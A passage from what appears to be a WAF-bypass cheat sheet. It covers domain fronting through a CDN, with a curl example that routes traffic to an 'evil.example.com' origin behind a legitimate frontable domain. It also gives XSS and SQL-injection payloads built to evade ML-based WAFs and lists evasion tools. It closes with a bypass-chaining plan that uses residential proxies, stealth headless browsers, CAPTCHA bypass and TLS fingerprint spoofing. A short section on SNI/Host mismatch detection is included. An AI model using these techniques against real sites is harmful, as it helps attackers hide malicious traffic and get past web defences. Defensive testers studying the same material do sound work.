4.  If the CDN is configured to route requests based on the `Host` header and hosts both `allowed-via-cdn.com` and `blocked-target.com` (or is configured to proxy for `blocked-target.com` via a frontable domain), it forwards the request to `blocked-target.com`.
5.  The traffic appears to be for `allowed-via-cdn.com` at the network/TLS layer, but the content is served from `blocked-target.com`.



**Key Points:**

- **CDN Dependency**: Relies on CDNs that route based on the `Host` header and do not strictly validate SNI against the `Host` header.
- **Legitimate SNI**: Uses a legitimate domain in the SNI, which often has a valid certificate issued by the CDN, making the initial TLS handshake appear valid.
- **Hidden Destination**: The actual destination (`Host` header) is hidden within the encrypted HTTP traffic.

**Example with `curl` and Fastly CDN:**

Fastly is a CDN known to allow domain fronting (at the time of the referenced article).

1.  **Setup Evil Server**: A server `evil.example.com` is set up.
2.  **Fastly Configuration**:
    - Create a Fastly service.
    - Set the origin to `evil.example.com`.
    - Fastly provides a domain like `your-service.global.ssl.fastly.net`. This will be used in the `Host` header.
3.  **Find a Frontable Domain**: Find a legitimate domain (e.g., `frontable.example.org`) that is also served by Fastly and shares IP infrastructure with `your-service.global.ssl.fastly.net`.
4.  **Execute Domain Fronting**:
    ```bash
    # SNI will be frontable.example.org (allowed domain on Fastly)
    # Host header is your-service.global.ssl.fastly.net (points to evil.example.com)
    curl -H "Host: your-service.global.ssl.fastly.net" https://frontable.example.org/
    ```

    - The request goes to a Fastly IP.
    - SNI is `frontable.example.org`, for which Fastly provides a valid certificate.
    - `Host` header `your-service.global.ssl.fastly.net` tells Fastly to fetch content from `evil.example.com`.

**CDNs and Domain Fronting Stance:**

- **Allowing (Historically/Potentially)**: Fastly.
- **Blocking**: AWS CloudFront, Google Cloud CDN, Azure CDN. These CDNs typically check if the SNI and `Host` header match and block requests if they don't.
- Mixed: Some vendor POPs or partner edges may behave differently; validate per‑region behavior.

**Detection and Protection:**

- **SNI/Host Header Mismatch**: WAFs and proxies can detect domain fronting by comparing the hostname in the SNI with the `Host` header in the decrypted HTTP request. If they differ, the request can be flagged or blocked.
- **TLS Inspection**: This detection requires TLS inspection capabilities.
- **Limitations**: Even with detection, sophisticated attackers might find ways to bypass these checks, for example, by finding subdomains or services on allowed CDNs that have more relaxed policies.

### 20. Evading ML-Based WAFs

```bash
# 1. Semantic Evasion: Use synonyms and paraphrasing
# Instead of: <script>alert(1)</script>
# Try: <svg/onload=self[atob('YWxlcnQ='):](1)>

# 2. Adversarial Token Injection: Add noise tokens
<script>/*benign benign benign benign benign*/alert(1)</script>

# 3. Embedding Space Manipulation: Use non-ASCII lookalikes
<ѕcript>alert(1)</ѕcript>  # Cyrillic 's' characters

# 4. Feature Engineering Bypass: Target low-weight features
# AI WAFs often ignore certain request parts
POST /upload
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary

------WebKitFormBoundary
Content-Disposition: form-data; name="file"; filename="<script>alert(1)</script>"
# Payload in filename field (often not heavily weighted)

# 5. Context Confusion: Mix attack vectors
# Combine SQL injection syntax with XSS to confuse classifiers
'><script>alert(1)</script>' UNION SELECT 1--
```

**Tools:**

- `ml-waf-evasion-toolkit` (2024) - Research tool for testing ML WAF robustness
- `adversarial-payload-generator` - Generates adversarial examples against WAF classifiers

## Recommended Tools

### WAF Fingerprinting Tools

- **WAFW00F** - The ultimate WAF fingerprinting tool with the largest fingerprint database
- **IdentYwaf** - A blind WAF detection tool using unique fingerprinting methods
- **Ja3er/ja4plus** - TLS fingerprint analysis and spoofing helpers

### WAF Testing Tools

- **GoTestWAF** - Tests WAF detection logic and bypasses
- **Lightbulb Framework** - Python-based WAF testing suite
- **WAFBench** - WAF performance testing suite by Microsoft
- **Framework for Testing WAFs (FTW)** - Rigorous testing framework for WAF rules
- **WAF Testing Framework** - Testing tool by Imperva
- **graphql‑cop** – Fuzzer for GraphQL APIs with WAF bypass testing
- **GoReplay/Mitmproxy** – record & replay traffic through different network paths to compare WAF decisions

### WAF Evasion Tools

- **WAFNinja** - Fuzzes and suggests bypasses for WAFs
- **WAFTester** - Tool to obfuscate payloads
- **libinjection-fuzzer** - Fuzzer for finding libinjection bypasses
- **bypass-firewalls-by-DNS-history** - Uses old DNS records to find origin servers
- **abuse-ssl-bypass-waf** - Finds supported SSL/TLS ciphers for WAF evasion
- **SQLMap Tamper Scripts** - Obfuscates SQL payloads to evade WAFs
- **Bypass WAF BurpSuite Plugin** - Adds headers to make requests appear internal
- **enumXFF** - Enumerates IPs in X-Forwarded-Headers to bypass restrictions
- **WAF Bypass Tool** - Open source tool from Nemesida
- **noble‑tls / uTLS / tls-client** – spoof browser‑grade TLS stacks programmatically

## WAF Bypass Chaining

Combine multiple techniques for more effective bypassing:

1. Use residential proxies
2. Implement a fortified headless browser
3. Add human-like behavior simulation
4. Apply CAPTCHA bypass when needed
5. Avoid honeypot traps
6. Mix multiple encoding techniques
7. Exploit request parsing inconsistencies
8. Use ML-generated payloads that evade signature detection
9. Align TLS/JA3 with real browsers and switch to HTTP/3 where inspection is weaker
10. Pivot to origin when feasible; fall back to stealth browser automation with humanization
